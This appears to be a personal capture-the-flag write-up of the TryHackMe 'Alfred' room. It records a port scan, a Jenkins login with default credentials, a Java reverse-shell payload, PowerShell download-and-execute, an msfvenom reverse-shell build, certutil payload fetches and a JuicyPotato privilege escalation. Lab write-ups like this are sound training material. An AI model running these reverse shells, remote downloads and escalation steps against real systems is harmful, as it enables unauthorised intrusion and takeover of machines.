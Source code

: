 # Enumeration 

## open ports


```
80/tcp   open  http       Microsoft IIS httpd 7.5
| http-methods:
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: Site doesn't have a title (text/html).
3389/tcp open  tcpwrapped
8080/tcp open  http       Jetty 9.4.z-SNAPSHOT
|_http-favicon: Unknown favicon MD5: 23E8C7BD78E8CD826C5A6073B15068B1
| http-robots.txt: 1 disallowed entry
|_/
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
MAC Address: 02:C9:B3:7C:AA:F3 (Unknown)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

```

### Port 80

![[Pasted image 20230119060137.png]]
Nothing much
### port 8080
![[Pasted image 20230119060149.png]]


trying default admin:admin and worked


# Foothold 

![[Pasted image 20230119064423.png]]
```

String host="10.10.214.71";
int port=9001;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();

```

uploading nishang and using it to get more stable shell
`powershell "IEX(new-object net.webclient).downloadstring('http://10.10.214.71:8000/shell.ps1')" `

# Privesc 

whoami /priv
![[Pasted image 20230119065340.png]]
potato time

On attacker:
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.214.71 LPORT=4005 -f exe -o reverse.exe
mv reverse.exe rev.exe
nc -lvnp 4005
```

On target:

```
certutil -urlcache -f http://10.10.214.71:8000/rev.exe rev.exe
certutil -urlcache -f http://10.10.214.71:8000/jp.exe jp.exe
.\jp.exe -t * -p rev.exe -l 9257
```

![[Pasted image 20230119065823.png]]

![[Pasted image 20230119070613.png]]
# Loot

Jenkins creds:
	Username:admin
	Password:admin


---
Tags: #ctf #thm #Token_impersonation #potato #jenkins 
Resources: [Alfred](https://tryhackme.com/room/alfred)